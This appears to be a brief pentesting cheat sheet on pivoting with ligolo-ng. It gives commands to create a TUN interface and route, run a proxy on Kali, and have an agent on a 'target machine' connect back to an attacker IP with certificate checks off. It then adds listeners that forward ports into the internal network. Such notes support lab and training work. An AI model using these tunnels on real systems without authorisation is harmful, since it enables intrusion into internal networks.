 # Ligolo

***

https://github.com/nicocha30/ligolo-ng

```bash
sudo ip tuntap add user $USER mode tun ligolo 
sudo ip link set ligolo up
sudo ip route add 172.16.0.0/16 dev ligolo
```

## Proxy (Kali)

```bash
./proxy -selfcert
```

## Agent (target machine)

```bash
./agent -connect 10.10.15.103:11601 -ignore-cert
```

## Proxy (Kali)

```bash
session
start
```

```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_list
```

https://excalidraw.com/#json=5jBoX9n28pzayCABeqqL2,IYDDVuJPlzLfXUHNpUx\_vg

!\[\[Pasted image 20231124175800.png]]

